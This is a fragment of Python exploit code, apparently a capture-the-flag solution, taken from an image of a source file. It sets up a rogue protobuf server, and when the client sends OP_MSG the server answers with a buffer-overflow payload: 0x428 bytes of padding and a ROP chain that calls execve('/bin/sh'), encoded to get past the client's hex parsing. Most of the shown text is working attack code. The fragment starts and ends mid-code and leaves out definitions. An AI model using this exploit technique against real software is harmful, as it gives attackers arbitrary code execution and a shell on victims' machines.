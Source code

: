 ```python

# Bind the socket to the port
server_address = ('0.0.0.0', 5001)
print(f'starting up on {server_address[0]} port {server_address[1]}')
sock.bind(server_address)

# Listen for incoming connections
sock.listen(4)

while True:
    # Wait for a connection
    print('waiting for a connection')
    connection, client_address = sock.accept()
    try:
        while True:
            print(f'connection from {client_address}')
            # Receive the message from the client
            serialized_message = connection.recv(1024)
            if not serialized_message:
                break
            client_message = Message()
            client_message.ParseFromString(serialized_message)
            print(f'Received message: {client_message}')

            # Create a response message
            response_message = Message()
            response_message.magic = 875704370
            response_message.seq = client_message.seq+1
            response_message.opcode = client_message.opcode # 写法 from 凯华
            if response_message.opcode==Opcode.OP_MSG:
                # padding 是 0x428 长度
                padding_len=0x428 
                rop=p64(pop_rdi)+p64(0)+p64(pop_rsi)+p64(binshell_addr)+p64(pop_rdx_rbx-1)+p64(0x30)+p64(0)+p64(pop_rax)+p64(0)+p64(syscall_addr) # pop_rdx_rbx 的地址在解析后会多1，有点奇怪
                rop+=p64(pop_rax)+p64(0x3b)+p64(pop_rdi)+p64(binshell_addr)+p64(pop_rsi)+p64(0)+p64(pop_rdx_rbx)+p64(0)+p64(0)+p64(syscall_addr)
                # do hex
                s=""
                for i in range(len(rop)):
                    t_low=rop[i]&0xf
                    t_high=rop[i]>>4
                    if t_low<10:
                        s+=chr(t_low+48)
                    else:
                        s+=chr(t_low+87)
                    if t_high<10:
                        s+=chr(t_high+48)
                    else:
                        s+=chr(t_high+87)
                # 相邻奇偶字换序
                s2=""
                for i in range(0,len(s),2):
                    s2+=s[i+1]
                    s2+=s[i]    
                response_message.cont = b"h"*padding_len*2+s2.encode("latin-1")
                send_proto_message(connection, response_message)
            elif response_message.opcode==Opcode.OP_HELLO:
                response_message.cont = b"helloOk"
                send_proto_message(connection, response_message)
            elif response_message.opcode==Opcode.OP_SESSION:
                response_message.cont = b"sessionOk"
                send_proto_message(connection, response_message)
            elif response_message.opcode==Opcode.OP_END:
```